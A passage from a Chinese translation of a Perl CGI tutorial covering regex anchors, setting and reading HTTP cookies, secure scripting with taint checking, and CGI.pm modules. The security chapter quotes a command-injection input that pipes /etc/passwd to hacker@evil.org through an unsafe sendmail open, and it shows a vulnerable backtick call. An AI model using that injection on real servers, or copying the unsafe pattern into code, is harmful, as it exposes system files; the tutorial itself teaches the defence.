会匹配 `International Kite Festival`、`Kite Festival`、`Kitefest '99`、`Festival of the Kite` 和 `Fester J. Kitely` 中的任意一个。如果你想将匹配锚定在字符串的开头，可以使用脱字符号（`^`）：

```
if ($fest =~ /^kite/i) {

    print "$fest\n";

}
```

这将匹配 `Kite Festival` 和 `Kitefest '99`。类似地，你可以使用美元符号（`$`）将匹配锚定在字符串的末尾：

```
if ($fest =~ /kite$/i) {

    print "$fest\n";

}
```

这匹配 `Festival of the Kite` 但不匹配其他的。

如果你想匹配单独出现单词 `Kite` 的字符串，你可以在单词边界（`\b`）上进行匹配：

```
if ($fest =~ /\bkite\b/i) {

    print "$fest\n";

}
```

这匹配 `International Kite Festival`、`Kite Festival` 和 `Festival of the Kite`。单词边界可以是空白字符、行的开头或结尾，或者标点符号。

## 参考资料

- *Effective Perl Programming*，Joseph N. Hall 和 Randal Schwartz 著
- *The Perl Cookbook*，Tom Christiansen 和 Nathan Torkington 著
- *Mastering Regular Expressions*，Jeffrey E. F. Friedl 著

访问 `http://www.cgi101.com/class/ch14/` 获取本章的源代码和链接。

# 15 HTTP Cookie

HTTP cookie（通常称为 Netscape cookie）是你的脚本可以发送给访客 Web 浏览器的一段数据，而浏览器会*存储*这些数据——存储时间由你指定。当该用户在一周或一个月后再次访问你的页面时，你就可以读取 cookie 并使用这些数据来判断是谁在访问。这就是许多网站如何用个性化的欢迎消息问候你、存储你的偏好设置，或记住你上次订购的内容。

cookie 的优点是你**可以**跟踪访客。如果有人从你这里订购了一件商品，你可能希望在其浏览器上设置一个 cookie，这样当他们再次访问时，你的页面可以推荐他们可能喜欢的类似产品。cookie 在复杂的在线订购系统和网络目录中尤其有用，它们允许访客在你的网站上浏览，将商品放入虚拟"购物车"（由 cookie 跟踪），继续浏览，并在购物完成后结账。

cookie 也有一些缺点。并非所有浏览器都支持它们。一些用户对隐私感到过于担忧，将浏览器配置为明确禁止所有 cookie。而且，如果你在一台公共机器（如大学计算机实验室或当地图书馆）上运行的浏览器中设置了 cookie，这些数据无论如何都是没有用的——下一个使用那台机器的人不会是设置 cookie 的同一个人。

cookie 适用于跟踪，但并非万无一失（也无法防止黑客攻击），所以你不应该在 cookie 本身中存储任何私人或个人信息。相反，为用户分配一个随机值作为他们的 cookie，并将该值以及你想保存的任何其他信息存储在服务器上的单独数据库中。

## Cookie 参数

Cookie 在 HTTP 头中设置，并在脚本中的 `Content-type:text/html` 行之前打印。cookie 头的官方规范如下：

```
Set-Cookie: NAME=VALUE; expires=DATE; path=PATH;

domain=DOMAIN_NAME; secure
```

**NAME** 可以是任何内容；它基本上是 cookie 的变量名。你可以设置多个 cookie；在这种情况下，你会希望为每个 cookie 使用不同的名称。

**VALUE** 是要存储在 cookie 本身中的实际数据；但是，你不能在值中使用分号、逗号或空格。

**DATE** 是过期日期，格式为 `Wed, DD-Mon-YYYY HH:MM:SS GMT`。（由于世界上有太多时区，为了保持一致性，建议使用 GMT。）此字段是可选的；如果省略，cookie 将在用户关闭浏览器时过期。

**PATH** 是服务器上 cookie 有效的路径：如果你将 `/` 指定为路径，则 cookie 在整个站点上都有效。如果省略，`PATH` 设置为实际设置 cookie 的脚本的路径。

**DOMAIN** 是 cookie 有效的域名；这应该与脚本运行的域名相同。如果省略，它默认为当前域名，例如 `www.cgi101.com`。

**secure**，如果指定，表示只有当浏览器通过安全连接（例如 `https://www.yoursecurehost.com/`）连接时，才会传输该 cookie。

## 如何设置 Cookie

我们来处理几个 cookie 示例。首先你要设置一个 cookie，所以我们来试试吧：

```
#!/usr/bin/perl

srand(time);

$cid = int(rand(100000));

print "Set-Cookie: NAME=$cid\n";

print "Content-type:text/html\n\n";

print <<EndOfHTML;

<html><head><title>Welcome</title></head>

<body>

<h2>Welcome!</h2>

Your cookie is $cid.<p>

</body></html>

EndOfHTML
```

- 源代码：`http://www.cgi101.com/class/ch15/cookie1.txt`
- 运行示例：`http://www.cgi101.com/class/ch15/cookie1.cgi`

此示例设置了一个带有随机数（`$cid`）的 cookie。我们完全省略了 `domain`、`path` 和 `expiration` 信息，因此 cookie 仅对当前域名和路径有效。该 cookie 也会在退出浏览器时过期，但这对于测试目的来说没问题。

当你测试第一个 cookie 脚本时，你可能想要编辑浏览器的偏好设置以"在接受 cookie 之前警告我"。这样你会在浏览器中收到一个弹出对话框，告诉你 cookie 名称和值。这是查看 cookie 是否真的被设置的好方法。不过有一个警告——测试完成后你要记得关闭该设置，否则你在浏览网页时会收到大量弹出式 cookie 警告！

## 如何读取 Cookie

我们来尝试读取刚才设置的 cookie。我们需要另一个脚本，名为 `cookie2.cgi`：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

$ccdata = $ENV{'HTTP_COOKIE'};

($name,$cid) = split(/=/,$ccdata);

print <<EndOfHTML;

<html><head><title>Welcome back!</title></head>

<body>

<h2>Welcome back!</h2>

Raw cookie: $ccdata<p>

Your cookie is $cid.<p>

</body></html>

EndOfHTML
```

- 源代码：`http://www.cgi101.com/class/ch15/cookie2.txt`
- 运行示例：`http://www.cgi101.com/class/ch15/cookie2.cgi`

Cookie 存储在名为 `HTTP_COOKIE` 的环境变量中，形式为 `NAME=VALUE`，所以你需要分割数据来获取实际的 cookie。

当然，一个只在访客关闭浏览器之前有效的 cookie 对某些应用来说并不是那么有用，所以我们来写一个能在指定时间内有效的 cookie。编辑 `cookie1.cgi`，并将其重命名为 `cookie3.cgi`。现在当你设置 cookie 时，你要设置一个过期日期。日期必须采用以下格式：

```
Wed, DD-Mon-YYYY HH:MM:SS GMT
```

所以你需要使用 `gmtime` 获取日期，并使用 `sprintf` 格式化日期字符串。在此示例中，我们将使用子程序来生成日期：

```
#!/usr/bin/perl

srand(time);

$expdate = mygmtime();

$cid = int(rand(1000000));

print "Set-Cookie: NAME=$cid; expires=$expdate\n";

print "Content-type:text/html\n\n";

print <<EndOfHTML;

<html><head><title>Welcome</title></head>

<body>

<h2>Welcome!</h2>

Your cookie is $cid.<p>

</body></html>

EndOfHTML

sub mygmtime {

    @months = ("Jan","Feb","Mar","Apr","May","Jun","Jul","Aug",

               "Sep","Oct","Nov","Dec");

    @days = ("Sun","Mon","Tue","Wed","Thu","Fri","Sat");

# (time) 表示现在，所以我们希望将其设置为稍后过期。

# 这里我们将其设置为 7 天后过期。

    ($sec,$min,$hr,$mday,$mon,$yr,$wday,$yday,$isdst) =

        gmtime(time + (86400*7));

# 格式必须是 Wed, DD-Mon-YYYY HH:MM:SS GMT

    $timestr = sprintf("%3s, %02d-%3s-%4d %02d:%02d:%02d GMT",

$days[$wday],$mday,$months[$mon],$yr+1900,$hr,$min,$sec);

return $timestr;

}
```

源代码：`http://www.cgi101.com/class/ch15/cookie3.txt`
在线示例：`http://www.cgi101.com/class/ch15/cookie3.cgi`

上述 cookie 的读取方式与我们之前用 `cookie2.cgi` 读取的方式相同，不过如果你重新加载页面，你将拥有多个 cookie，处理方式会略有不同。请参阅下面的"多 Cookie"部分。

## 限制路径

你可能希望设置一个仅在你网站特定子目录下有效的 cookie。或者，你可能希望设置一个在整个网站上都有效的 cookie。在上面的例子中，我们设置的 cookie 仅对 `http://www.cgi101.com/class/ch15/` 下的脚本有效；该 cookie 对 `http://www.cgi101.com/cgi-bin/` 或网站上任何其他目录下的脚本都**不起作用**。要设置路径，我们在 cookie 语句中添加 `path=` 部分：

```
Set-Cookie: NAME=VALUE; expires=DATE; path=PATH
```

如果你使用 `path=/`，访问者的浏览器将为整个网站的任何页面发送此 cookie。如果你想将 cookie 限制在特定目录，可以设置类似 `path=/misc/testing`，然后只有 `http://www.domain.com/misc/testing` 下的页面才能看到该 cookie。如果你没有自己的虚拟域名，而是在 ISP 上共享 Web 空间（地址类似 `http://www.cgi101.com/~kira/`），你应该将路径设置为主目录路径（例如 `path=~kira/`）...否则你 ISP 上的所有其他用户都能看到（并更改）你的 cookie！

## 域名

通常你不需要指定 cookie 有效的域名：它默认为调用设置该 cookie 的 CGI 所使用的域名。（在上面的例子中，它默认为 `www.cgi101.com`。）如果你只有一个域名，你可能想直接省略此设置，因为域名部分的错误会带来无尽的麻烦。

但假设你确实想为多个域名设置一个 cookie。例如，`cgi101.com` 可以通过 `http://cgi101.com/`、`http://www.cgi101.com/` 和 `http://secure.cgi101.com/` 访问。因此，如果我们想让 cookie 在所有这些域名上都有效，我们使用：`domain=.cgi101.com`。

有一点需要注意：`domain=whatever` 部分会匹配任何部分或完整的给定域名。域是指你的 Web 服务器的域名，它非常具体——如果你的 cookie 设置了 `domain=cgi101.com`，那么**只有**访问 `http://cgi101.com/` 时才有机会发送该 cookie。如果你想让任何 `*.cgi101.com` 都能发送此 cookie，在域名前添加一个前导点非常重要：`domain=.cgi101.com`。这将匹配 `http://www.cgi101.com/`、`http://foobar.cgi101.com/` 等。前导点会告知访问者的客户端，即使域名部分匹配也要发送 cookie。

不幸的是，你无法为一个与调用 CGI 所使用的域名不匹配或部分不匹配的域名设置 cookie。例如，`cgi101.com` 上的 cookie CGI 无法为 `metronet.com` 设置 cookie。同样，你无法读取在其他域名上设置的 cookie。

## 多 Cookie

想设置多个 cookie 吗？只需在你的脚本中重复 `Set-Cookie` 行即可：

```
#!/usr/bin/perl

srand(time);

$expdate = mygmtime(time+(86400*7));

$exp2 = mygmtime(time+(86400*2));

$cid = int(rand(1000000));

print "Set-Cookie: NAME=$cid; path=/class; expires=$expdate; domain=.cgi101.com\n";

print "Set-Cookie: CTEST=4; path=/class; expires=$exp2; domain=.cgi101.com\n";

print "Set-Cookie: fnord=23; path=/class; expires=$expdate; domain=.cgi101.com\n";

print "Content-type:text/html\n\n";

print <<EndOfHTML;

<html><head><title>Welcome</title></head>

<body>

<h2>Welcome!</h2>

Your cookie is $cid.<p>

</body></html>

EndOfHTML

sub mygmtime {

    ($etime) = @_;

    @months = ("Jan","Feb","Mar","Apr","May","Jun","Jul","Aug",

               "Sep","Oct","Nov","Dec");

    @days = ("Sun","Mon","Tue","Wed","Thu","Fri","Sat");

    # (time) would be now, so we want to set it to expire sometime

    # later.  here we expire it in 7 days.

    ($sec,$min,$hr,$mday,$mon,$yr,$wday,$yday,$isdst) =

        gmtime($etime);

    # format must be Wed, DD-Mon-YYYY HH:MM:SS GMT

    $timestr = sprintf("%3s, %02d-%3s-%4d %02d:%02d:%02d GMT",

        $days[$wday],$mday,$months[$mon],$yr+1900,$hr,$min,$sec);

    return $timestr;

}
```

源代码：`http://www.cgi101.com/class/ch15/cookie4.txt`
在线示例：`http://www.cgi101.com/class/ch15/cookie4.cgi`

这次我们还修改了 `mygmtime` 函数，使其接受一个参数，即 cookie 的过期时间。对于 cookie 1 和 3，我们将过期时间设置为从现在起 7 天；对于 cookie 2，我们将其设置为从现在起 2 天。

当然，现在我们有不止一个 cookie，所以我们需要稍微修改一下 cookie 读取器。之前我们只是按 `=` 分割，但现在 `HTTP_COOKIE` 行将被设置为类似这样的内容：

```
NAME=124964; CTEST=4; fnord=23
```

注意每个 cookie 由分号分隔，所以为了处理它们，我们只需按分号分割字符串：

```
#!/usr/bin/perl

print "Content-type:text/html\n\n";

print <<EndOfHTML;

<html><head><title>Welcome back!</title></head>

<body>

<h2>Welcome back!</h2>

EndOfHTML

$cdata = $ENV{'HTTP_COOKIE'};

print "Your cookies are:<p>\n";
```


@cookies = split(/;/,$cdata);

foreach $i (@cookies) {

    ($name,$cid) = split(/=/,$i);

    print "$name = $cid<br>\n";

}

print "</body></html>\n";

```

- 源代码：http://www.cgi101.com/class/ch15/cookie5.txt
- 在线示例：http://www.cgi101.com/class/ch15/cookie5.cgi

这只是将各种 cookie 存储在一个数组中。你可能会发现将 cookie 存储到哈希表中更有用，像这样：

```
%cookie = ();

foreach $i (@cookies) {

    ($name,$cid) = split(/=/,$i);

    $cookie{$name} = $cid;

}
```

然后你可以通过引用`$cookie{"NAME"}`来单独引用它们。不过要小心——如果你有多个名为 "NAME" 的 cookie，上述代码只会存储最后一个！

## 资源

Netscape 持久客户端状态 HTTP Cookie 规范 - http://home.netscape.com/newsref/std/cookie_spec.html

访问 http://www.cgi101.com/class/ch15/ 获取本章的源代码和链接。

# 16 编写安全的脚本

CGI 对你和你运行它们的服务器都可能带来风险。失控的 CGI 可能会耗尽服务器上的 CPU 和内存，直到崩溃。黑客可以通过你的表单发送虚假数据，并获取 shell 命令和私有文件的访问权限。其他用户可能会覆盖你的文件。你如何保护自己？

首先，你*永远不应该信任输入数据*。始终检查从表单提交发送过来的结果，以确保结果符合你的预期。永远不要将未经检查的数据传递给系统命令或管道打开（piped open）。并为了增加安全性，开启污点检查（taint checking）。

## 污点数据

一个包含来自脚本外部数据（通过表单提交、环境变量、程序标志或 STDIN）的变量被认为是*受污染的（tainted）*。你不知道变量里有什么内容，因此你应该在将其传递给系统命令或管道之前，先进行净化（untainting）。

这里有一个例子。一些版本的表单转邮件 CGI 像这样发送邮件：

```
open(MAIL,"|/usr/sbin/sendmail $FORM{'email'}");
```

如果`$FORM{'email'}`确实是一个电子邮件地址，这将会起作用。但如果它不是，它可能是一个危险的 shell 命令。`open`语句中的管道符号（`|`）会执行一个 shell 命令——在这种情况下，将输出通过管道传输到 sendmail。（这被称为管道打开。）问题出在`/usr/sbin/sendmail`之后的部分。如果有人在电子邮件地址字段输入了这样的内容："nobody; cat /etc/passwd > mail hacker@evil.org"，那么你实际上执行了这个 shell 命令：

```
/usr/sbin/sendmail nobody; cat /etc/passwd > mail

hacker@evil.org
```

你刚刚将系统密码文件发送给了一个潜在的黑客。当然，通过利用这个相同的漏洞，黑客可以删除你的任何全局可写文件，或者如果你正在运行 suEXEC，他们可以读取你的邮件、列出（或删除）你主目录中的所有文件，以及更糟糕的事情。

系统命令中也存在同样的弱点。以下示例在服务器上执行`finger`程序（反引号括起来的是你的脚本要运行的 shell 命令）：

```
# This example is NOT tainted.
$username = "fred";
@out = `/usr/bin/finger $username`;

# This example IS tainted.
$username = $FORM{'username'};
@out = `/usr/bin/finger $username`;
```

在第一个例子中，我们的程序明确设置了`$username`。我们知道它的值是什么，所以没有风险。然而，在第二个例子中，我们接受来自表单的输入，这默认是受污染的。将受污染的数据未经检查就传递给系统命令是极其危险的。

你可以通过简单地永远不将受污染的数据传递给管道打开或系统命令来避免污点问题。以下是安全地打开到 sendmail 的管道的方式：

```
open(MAIL,"|/usr/sbin/sendmail -t");
print MAIL "To: $FORM{'email'}\n";
print MAIL "From: webmaster\@wherever.com\n";
print MAIL "Subject: test subject\n\n";
print MAIL "Blee!\n";
close(MAIL);
```

`-t`标志告诉 sendmail 读取邮件头中的`To:`字段来确定邮件的发送地址。如果有人在`$FORM{'email'}`字段中输入了一个虚假的命令，sendmail 会给出一个类似"找不到有效收件人地址"的错误，然后关闭管道。

这里要说明一点：你并不总是*必须*测试污点（但这是一个好主意）。你可以将受污染的变量打印到输出文件、邮件消息或浏览器，你也可以对受污染的数据执行计算和汇总（这将导致结果变量也被污染）。只要数据留在你的 CGI 内部，你可能不会遇到（太多）麻烦。那么，你什么时候应该测试污点呢？

## Taint Checking（污染检查）

Perl 可以通过在第一行使用`-T`标志来检查脚本是否被“污染”：

```perl
#!/usr/bin/perl -T
```

`-T`标志会使 Perl 在运行脚本之前检查其是否存在污染问题。如果存在污染问题，程序将无法运行，并且你会收到一条错误消息。你最可能看到的第一个错误是这样的：

```
Insecure $ENV{PATH} while running with -T switch at ./mail2.cgi
line 20.
```

出现此错误是因为你没有显式定义 CGI 运行时的路径（PATH）。要修复此问题，请将脚本的开头修改为如下内容：

```perl
#!/usr/bin/perl -T
$ENV{PATH} = "/bin:/usr/bin";
```

这样做限制了路径（以及你的 CGI 可用的命令），而不是允许它在 Web 服务器默认的任何路径下运行。

其他错误可能看起来像这样：

```
Insecure dependency in `` while running with -T switch at
./mail2.cgi line 23.
```

这表明你尝试将污染的数据传递给系统命令。在将数据用于 shell、管道或系统命令之前，你必须先对其进行“去污染”（untaint）。

你应该在以下情况下对数据进行去污染：

- 当你使用`backticks`（反引号）或`system`函数运行系统命令时；

- 当你打开指向另一个程序的管道时，例如`open(OUT,"|/to/some/command $input")`；

- 当你使用输入数据来命名输出文件时，例如`open(OUT,">tmp/$somedataname")`；

- 当你将数据写入文件或数据库，且期望数据符合某种特定格式时。

## Untainting Data（数据去污染）

要对一个值进行去污染，必须将其通过正则表达式匹配和反向引用，如下所示：

```perl
if ($tainted_data =~ /(valid_pattern)/) {
    $good_data = $1;
} else {
    dienice("Bad data: $tainted_data");
}
```

在这个例子中，`valid_pattern`应该是一个正则表达式，用于确保数据符合你期望的格式。例如，如果你想确保它是一个电子邮件地址，可以使用：

```perl
if ($tainted_data =~ /([\w\-]+@[\w\-]+\.[\w\-]+)/) {
    $good_data = $1;
}
```

如果你想剔除除字母数字、空格、点和破折号以外的所有字符（这些通常在 shell 命令中是安全的），你可以这样做：

```perl
if ($tainted_data =~ /([\w\-\s\.]+)/) {
    $good_data = $1;
}
```

在构建模式匹配时应非常小心。你很容易通过以下方式将数据“清洗”干净：

```perl
if ($tainted_data =~ /(.+)/) {
    $good_data = $1;
}
```

然而，这仅仅是将`$good_data`设置为与`$tainted_data`完全相同的值——从而完全失去了污染检查的目的。

这是一个具有良好污染检查的示例程序：一个用于显示 Unix man（帮助）页面的 CGI。创建一个名为`man.html`的 HTML 表单：

```html
<form action="man.cgi" method="POST">
Topic: <input type="text" name="topic" size=16><input
type="submit" value="Go">
</form>
```

现在创建一个名为`man.cgi`的新 CGI：

```perl
#!/usr/bin/perl -T
$ENV{PATH} = "/bin:/usr/bin";

print "Content-type:text/html\n\n";

read(STDIN, $buffer, $ENV{'CONTENT_LENGTH'});
@pairs = split(/&/, $buffer);
foreach $pair (@pairs) {
    ($name, $value) = split(/=/, $pair);
    $value =~ tr/+// ;
    $value =~ s/%([a-fA-F0-9][a-fA-F0-9])/pack("C", hex($1))/eg;
    $FORM{$name} = $value;
}
print "<html><head><title>Man Page: 
$FORM{'topic'}</title></head>\n";
print "<body>\n";

# 唯一允许的主题将是字母数字 (a-zA-Z0-9) 组成的单词。
# 破折号和点也是允许的；空格则不允许。
if ($FORM{'topic'} =~ /([\w\-\.]+)/) {
    $topic = $1;
} else {
    dienice("Bad topic: $FORM{'topic'}");
}

print "<h2>$topic</h2>\n";

@out = `/usr/bin/man $topic`;

# 现在打印 pre 标签，以便输出是预格式化的。
print "<pre>\n";

foreach $i (@out) {
# man 页面使用 nroff 格式化，所以我们需要用这个替换
# 语句从中删除 nroff 控制字符：
    $i =~ s/\.\cH//g;;

    # 现在打印该行
    print $i;
}
print "</pre>\n";
print "</body></html>\n";

sub dienice {
    my($errmsg) = @_;
    print "<h2>Error</h2>\n";
    print "$errmsg<p>\n";
    print "</body></html>\n";
    exit;
}
```

源代码：http://www.cgi101.com/class/ch16/man.txt

运行示例：http://www.cgi101.com/class/ch16/man.html

此脚本对输入数据进行了去污染，并将其传递给 man 程序。其输出结果与你在 Unix shell 中输入`man sometopic`看到的结果相同。

## World-Writable Files（全球可写文件）

正如我们之前所见，CGI 通常需要能够将数据写入输出文件。不幸的是，这意味着必须将文件和目录设置为“全球可写”（world-writable），以便 Web 服务器进程能够实际写入。这可能具有风险——尤其是如果你的系统上有其他用户。如果你是唯一有权访问该机器的人，这可能足够安全，但一旦你添加了另一个用户，你就给自己带来了潜在问题。其他用户可以直接（通过输入 shell 命令）或间接（通过编写恶意的 CGI）覆盖你的数据。

遗憾的是，在大多数 Web 服务器下，你对此无能为力——如果你想将数据写入文件，该文件必须对 Web 进程可写。一种可能的解决方案是（如果你的 ISP 支持），将所有 CGI 作为 suEXEC 运行——这意味着 CGI 将以你的用户 ID 运行，而不是 Web 服务器的。这需要在 Web 服务器中进行特殊配置；请就此咨询你的 Web 管理员。此外，这会带来其他安全问题，因此如果你**确实**使用 suEXEC，你应该在 CGI 中开启污染检查。

如果你的 CGI 应用程序必须创建新文件，你应该创建一个单独的、全球可写的目录，位置在 Web 树 *之外* —— 例如，如果你的 Web 目录是`/home/joe/public_html`，任何可写目录应位于`/home/joe`或文件系统上的其他区域（如`/tmp`）。如果你在自己的 Web 空间中创建全球可写目录，有人可能会在那里上传并运行他们自己的 CGI 程序，从而获得对你站点的未经授权访问。

全球可写文件和目录的另一个不可避免的风险是它们可能会被删除。其他用户或错误的 CGI 可能会抹除你的数据。如果你没有 suEXEC，你无法防御这种情况；唯一的解决方案是经常备份你的数据。

## Resources（资源）

- perlsec man page

- The CGI/Perl Taint Mode FAQ: http://gunther.web66.com/FAQS/taintmode.html

- The WWW Security FAQ: http://www.w3.org/Security/Faq/www-security-faq.html

- 访问 http://www.cgi101.com/class/ch16/ 获取本章的源代码和链接。

# 17 Perl Modules（Perl 模块）

本书在这一章之前的所有编程示例都是独立程序；运行它们不需要任何外部程序（sendmail 除外）。但有大量预先编写好的 Perl 代码（免费）可供使用，因此这里我们将讨论如何使用模块。

模块是一组变量和子程序，通常存储在单独的文件中，例如 "modulename.pm"。"pm" 后缀代表（不出所料）：Perl Module。

```perl
#!/usr/bin/perl
use modulename;
```

请注意，`use`语句中不包含 `.pm`。此外，模块名称是区分大小写的；`use gd` 与 `use GD` 不同。

你也可以显式声明想要导入该模块中的哪些子程序：

```perl
#!/usr/bin/perl
use modulename qw(sub1 sub2 sub3);
```

在这个例子中，你只导入名为`sub1`、`sub2`和`sub3`的子程序，而不是整个模块。`qw`函数是 Perl 的 *quote words*（引用单词）函数——它根据空白字符分割包含的字符串。因此`qw(sub1 sub2 sub3)`等同于`("sub1", "sub2", "sub3")`。

你应该参考模块的文档来了解具体的用法。

模块可以放在服务器上的任何位置，但你需要告诉你的 CGI 在哪里可以找到它。如果它与你的 CGI 在同一目录下，或者在系统范围的 "siteperl" 目录中（通常在`/usr/lib/perl5/site_perl/`），则不需要添加路径信息——Perl 会知道在哪里找到它。但例如，如果你的模块在主目录下，而你的 CGI 在 public_html 目录下，你需要包含以下行：

```perl
BEGIN {
    push(@INC, '/home/youruserid');
}
```

并将`/home/youruserid`更改为你主目录的实际路径。另一种实现方法是：

```perl
use lib '/home/youruserid';
```

模块还必须能被 Web 服务器读取，以便你的脚本能够导入，因此请确保对 `.pm` 文件本身执行`chmod 644`。

## Modules and Object-Orientedness（模块与面向对象）

在开始使用模块之前，你应该了解 Perl 对象的一些基础知识。大多数模块是以面向对象的方式编写的。你的脚本必须通过执行类似于以下操作来创建模块主类的一个实例（或对象）：

```perl
$c = new CGI;

or

$newsrc = new News::Newsrc;
```

这两者都创建了对象（`$c`和`$newsrc`），你可以在整个脚本中使用它们。它们不像变量，而更像是指向模块本身的指针。

现在，要调用模块内部的各种子程序或方法，你可以像这样使用新创建的对象句柄：

```perl
print $q->start_html("Test Page");
```

这仅仅是一种调用子程序的新方式。它类似于：

```perl
print CGI::start_html("Test Page");
```

但这种方式并不被推荐。使用`$object->method`调用模块函数的方式保留了模块的面向对象特性和继承性。

任何编写良好的模块都会有文档，向你展示如何使用它（包括各种方法调用的示例）；如需更多信息，请查阅该文档。

## 使用模块：CGI.pm


让我们先尝试使用最流行（且广泛可用）的模块之一：`CGI.pm`。该模块已包含在 Perl 发行版中，因此除非你使用的是非常旧的 Perl 版本，否则无需自行安装。

`CGI.pm` 模块能够处理我们在本书中已经做过的许多任务。有些人甚至可能建议你使用 `CGI.pm` 编写所有 CGI。如果你愿意，可以这样做；你会发现它在某些任务上能为你节省时间。那么为什么我们一直没有使用 `CGI.pm` 呢？嗯，部分原因是为了教你 Perl，另一部分原因是有时候创建独立的 CGI 更有用。但为了获得全面的 CGI 知识，你应该熟悉 `CGI.pm`。

让我们尝试 `CGI.pm` 的一些功能。首先，我们来看看它如何用于生成 HTML。还记得早在第 1 章中我们编写第一个 CGI 的时候吗？以下是代码：

```perl
#!/usr/bin/perl
print "Content-type:text/html\n\n";
print "<html><head><title>Test Page</title></head>\n";
print "<body>\n";
print "<h2>Hello, world!</h2>\n";
print "</body></html>\n";
```

现在，这是使用 `CGI.pm` 的相同代码（将此文件命名为 `firstmod.cgi`）：

```perl
#!/usr/bin/perl
use CGI;
$q = new CGI;
print $q->header,
    $q->start_html("Test Page"),
    $q->h2("Hello, world!"),
    $q->end_html;
```

- 源代码：`http://www.cgi101.com/class/ch17/firstmod.txt`
- 工作示例：`http://www.cgi101.com/class/ch17/firstmod.cgi`

`CGI.pm` 模块具有显示所有你之前必须手动输入的 HTML 的函数。`header` 函数打印 `"Content-type: text/html\n\n"` 信息。`start_html` 打印 `"<html><head><title>"` 内容——使用你传递的参数来设置页面标题。`h2` 打印传递给它的字符串，并包裹在 `"<h2></h2>"` 标签中。而 `end_html` 打印 `"</body></html>"` 标签。

`CGI.pm` 还可以为你创建表单。以下是我们第 4 章中 `post.html` 表单的修订版本（这次重写为 CGI）：

```perl
#!/usr/bin/perl
use CGI;

$q = new CGI;

print $q->header,
      $q->start_html("Post Form");

print $q->start_form(-action=>"formmod2.cgi");
print "<pre>\n";
print "      Your Name: ",$q->textfield(-name=>"name"), "\n";
print " Email address: ",$q->textfield(-name=>"email"), "\n";
print "            Age: ", $q->textfield(-name=>"age"), "\n";
print "Favorite Color: ",$q->textfield(-name=>"favorite_color"),
     "\n";
print "</pre>\n";

print $q->submit(-value=>"Send"),
      $q->reset(-value=>"Clear Form");
$q->end_form;
$q->end_html;
```

- 源代码：`http://www.cgi101.com/class/ch17/formmod.txt`
- 工作示例：`http://www.cgi101.com/class/ch17/formmod.cgi`

`CGI.pm` 的大多数函数都有可选参数，让你可以指定某些字段的值；例如在上面的程序中，`$q->textfield(-name=>"email")` 等同于在 HTML 表单中输入 `<input type="text" name="email">`。

接下来我们使用 `CGI.pm` 创建解析上述表单的脚本。将此文件命名为 `formmod2.cgi`：

```perl
#!/usr/bin/perl
use CGI;
$q = new CGI;
print $q->header;
print $q->start_html("Results");
print $q->h2("Results");
print "Here's what you entered:<p>\n";
print "Your Name: ", $q->param("name"),$q->br;
print "Email: ", $q->param("email"),$q->br;
print "Age: ", $q->param("age"),$q->br;
print "Favorite Color: ", $q->param("favorite_color"),$q->br;
print $q->end_html;
```

- 源代码：`http://www.cgi101.com/class/ch16/formmod2.txt`
- 工作示例：`http://www.cgi101.com/class/ch16/formmod2.cgi`

注意，你甚至不需要包含将 CGI 发送的数据读入哈希的整段代码：当你创建类的实例时，`CGI.pm` 会自动为你完成：

```perl
$q = new CGI;
```

此后，表单中的所有参数都可以通过 `param` 函数访问，只需执行 `$q->param("fieldname")` 即可。

## 一体化表单 CGI

虽然你当然可以像上面那样继续将表单和处理 CGI 分开，但这违背了 `CGI.pm` 的最初目的之一——使你能够创建一个同时处理 HTML 和结果的单一表单。以下是一个示例——结合了前面两个 CGI：

```perl
#!/usr/bin/perl
use CGI;

$q = new CGI;

print $q->header;

if ($q->param()) {
    print $q->start_html("Results");
    print $q->h2("Results");
    print "Here's what you entered:<p>\n";
    print "Your Name: ", $q->param("name"),$q->br;
    print "Email: ", $q->param("email"),$q->br;
    print "Age: ", $q->param("age"),$q->br;
    print "Favorite Color: ", $q->param("favorite_color"),
        $q->br;
} else {
    $q->start_html("Post Form");
    print $q->start_form(-action=>"formmod3.cgi");
    print "<pre>\n";
    print "      Your Name: ",$q->textfield(-name=>"name"), "\n";
    print " Email address: ",$q->textfield(-name=>"email"), "\n";
    print "                Age: ", $q->textfield(-name=>"age"), "\n";
    print "Favorite Color: ",$q->textfield(-name=>"favorite_color"), "\n";
    print "</pre>\n";
    print $q->submit(-value=>"Send"),
        $q->reset(-value=>"Clear Form");
    $q->end_form;
}

$q->end_html;
```

- 源代码：`http://www.cgi101.com/class/ch17/formmod3.txt`
- 工作示例：`http://www.cgi101.com/class/ch17/formmod3.cgi`

`$q->param()` 返回表单输入字段的列表。如果表单尚未填写，列表为空，因此脚本会创建一个新表单。

当然，这还没有展示 `CGI.pm` 最巧妙的功能之一。如果你像这样重写 `formmod3.cgi`，使其即使在有结果的情况下也始终呈现一个新表单，你会发现一些有趣的事情：

```perl
#!/usr/bin/perl
use CGI;
$q = new CGI;

print $q->header;
if ($q->param()) {
    print $q->start_html("Results");
    print $q->h2("Results");
    print "Here's what you entered:<p>\n";
    print "Your Name: ", $q->param("name"),$q->br;
    print "Email: ", $q->param("email"),$q->br;
    print "Age: ", $q->param("age"),$q->br;
    print "Favorite Color: ", $q->param("favorite_color"),
        $q->br;
} else {
    $q->start_html("Post Form");
}

print $q->start_form(-action=>"formmod4.cgi");
print "<pre>\n";
print "        Your Name: ",$q->textfield(-name=>"name"), "\n";
print "   Email address: ",$q->textfield(-name=>"email"), "\n";
print "            Age: ",$q->textfield(-name=>"age"), "\n";
print "Favorite Color: ",$q->textfield(-name=>"favorite_color"),
    "\n";
print "</pre>\n";

print $q->submit(-value=>"Send"),
    $q->reset(-value=>"Clear Form");
    $q->end_form;
$q->end_html;
```

- 源代码：`http://www.cgi101.com/class/ch17/formmod4.txt`
- 工作示例：`http://www.cgi101.com/class/ch17/formmod4.cgi`

如果表单已经填写过一次，那么新表单中的字段将自动填入用户输入的内容！这对于错误检查非常有用：你可能希望有一个订单 CGI，如果某人在某个字段输入了无效选择，你可以重建表单——已经填入了他们输入的所有内容——并突出显示错误数据，让他们重新填写。以下是一个示例，展示它可能的样子：

```perl
print "<font color=\"#ff0000\">Age:</font> ",
    $q->textfield(-name=>"age",-override=>1), "\n";
```

注意，这次你向文本字段传递了一个 `-override=>1` 参数——告诉该函数不要将之前的数据放入字段中，而是将其留空。

## 从表单上传文件

一些较新的浏览器（Netscape 2 及以上版本，以及 IE 4 及以上版本）允许你通过表单从本地机器上传文件到远程服务器。文件上传表单与普通表单略有不同，因为你必须在 `<FORM>` 标签中设置 `ENCTYPE` 值，并在 `<INPUT>` 标签中使用 `TYPE="FILE"`：

```html
<form method="post" action="upload.cgi"
    enctype="multipart/form-data">
